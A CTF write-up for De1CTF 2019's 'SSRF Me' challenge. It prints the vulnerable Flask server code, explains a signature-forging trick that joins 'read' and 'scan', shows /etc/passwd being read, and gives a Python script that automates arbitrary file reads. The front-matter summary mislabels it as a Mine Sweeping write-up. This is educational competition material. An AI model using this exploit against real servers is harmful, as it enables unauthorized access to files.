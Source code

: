 ```yaml
---
layout: post
title:  "De1CTF 2019 SSRF Me Writeup"
date:   2019-08-06 18:00:00 +0300
categories: CTF_writeup De1CTF_2019
summary: This is my writeup for the Mine Sweeping challenge. This challenge was part of De1CTF 2019. We only got an URL that we should access as part of the challenge. Accessing that URL returns some python code.
---
```

This is my writeup for the `SSRF Me` challenge. This challenge was part of [De1CTF 2019](https://ctftime.org/event/843).

We only got an URL that we should access as part of the challenge. Accessing that URL returns some python code.


<details>
  <summary>Python code - server(click to expand)</summary>
<p>
{% highlight python %}
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

    
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
{% endhighlight %}
</p>
</details>

We can notice some things by analysing the code:
* the '/' endpoint returns the code, as we observed before
* the `/geneSign` endpoint will call the getSign function
    * The getSign function takes 2 arguments: param and action (both of them are strings)
    * That function will also access the 'secert_key' variable which is randomly generated
    * The function returns an MD5 hash of the string obtained by merging secert_key, param and action
    * the `/geneSign` endpoint will set the action to 'scan' and let the user supply the value for 'param'
* the `/De1ta` endpoint will create a Task object and return the result of its `.Exec()` method
    * This endpoint allows the user to supply values for 3 variables
        * action - by setting the 'action' cookie
        * sign - by setting the 'sign' cookie
        * param - by using an URL parameter named 'param'
        * It looks like the IP address of the user is also used (we can ignore this as it is used only for sandboxing purposes)
    * Next, we should look at details about the Task class. It has a simple constructor that uses the values mentioned above and the Exec method. The Exec method is where the important stuff happens
        * One of the first things that we notice in the Exec method is the `self.checkSign()` check. To avoid getting an error (code 500), the request should have a 'sign' cookie with the expected value
        * The expected value is a MD5 hash computed by calling the getSign method that was mentioned above. This means that we should be able to get a hash by using the `/geneSign` endpoint
        * The `/geneSign` endpoint has the value for 'action' set to 'scan'. We should imitate that and set the action to 'scan' in our request too. As a result, if we chose a valid URL for 'param', generate a hash using the `/geneSign` endpoint and then use that hash with the 'scan' action and the same parameter at the `/De1ta` endpoint we can get a 200 (OK) response from the server
        * Now it is time to take a look at what the 'scan' action means for this program. After that check passes, we have two available actions:
            * scan - takes the URL from 'param', open it and then put the first 50 characters from it into a file
            * read - returns the content obtained by the last 'scan' action
            * Another thing that should be mentioned here is that the check is performed using `in`. This means that the user-supplied string could contain both of these actions (e.g. "scanread" would be a valid input and it would trigger both actions)
            * The actions are always performed in the same order without taking into account the order of their keywords in the user-supplied string. So both "scanread" and "readscan" will produce the same result (a 'scan' action followed by a 'read' action)
* So in order to read the content of an arbitrary URL we should be able to use a 'read' action. However, we cannot obtain a valid hash from `/geneSign` because that will always have the action set to 'scan'
    * But as I mentioned above, the order of the words 'scan' and 'read' in the string does not matter. This means that we could make the request to `/geneSign` using 'read' followed the the URL as the value for 'param'. After the strings are merged this will be the same as if the action was "scanread" and the value of 'param' was the original URL  that we wanted to access
* Doing the actions mentioned above allowed me to access /etc/passwd as a PoC for this "exploit". Howevere, as we expected, only the first 50 characters of the file were returned.

![Reading from /etc/passwd](/assets/img/De1CTF_2019/ssrf_1.png){: .center-image}

* To make things easier from here, I created a Python script that does all the required steps to read a file from the server

<details>
  <summary>get_file.py (click to expand)</summary>
<p>
    {% highlight python %}
    import requests
    import sys
    import json

    server = 'http://139.180.128.86/'


    def get_signature(param):
        req_url = server + 'geneSign' + '?param=' + param

        res = requests.get(req_url)
        return res.text


    def get_file(path):
        s = get_signature(path + 'read')
        action = 'readscan'

        cookies = {}
        cookies['action'] = action
        cookies['sign'] = s

        request_url = server + 'De1ta?param=' + path
        r = requests.get(request_url, cookies = cookies)
        
        res = json.loads(r.text)
        if res['code'] is 200:
            print('Request was successful')
            return res['data']
        else:
            print('Request failed')
            return None


    if __name__=='__main__':
        if len(sys.argv) is not 2:
            print('Wrong number of arguments')
            exit(1)
        else:
            path = sys.argv[1]

        print('Obtaining file %s' % path)
        tmp = get_file(path)
        print(tmp)
    {% endhighlight %}
</p>
</details>

* Next, I tried to obtain the `./flag` file without success so I assumed that need a full path for that
    * For this, I tried to access `/proc/self/cmdline` to get some information about the current process (the working directory in particular) but the 50 character limit prevented me from obtaining relevant information
    * I also tried reading other files from the system or from /proc/self but I couldn't get any useful information. An example of useless information that I got was that PID of the process and the fact that the server uses the [uWSGI framework](https://uwsgi-docs.readthedocs.io/en/latest/)

![PID and uwsgi](/assets/img/De1CTF_2019/ssrf_2.png){: .center-image}

* After a while I decided to take a step back and try going for `./flag` again but this time I tried to read `flag` (without the './')
    * To my surprise, that worked and I obtained the flag for this challenge

![flag obtained](/assets/img/De1CTF_2019/ssrf_3.png){: .center-image}
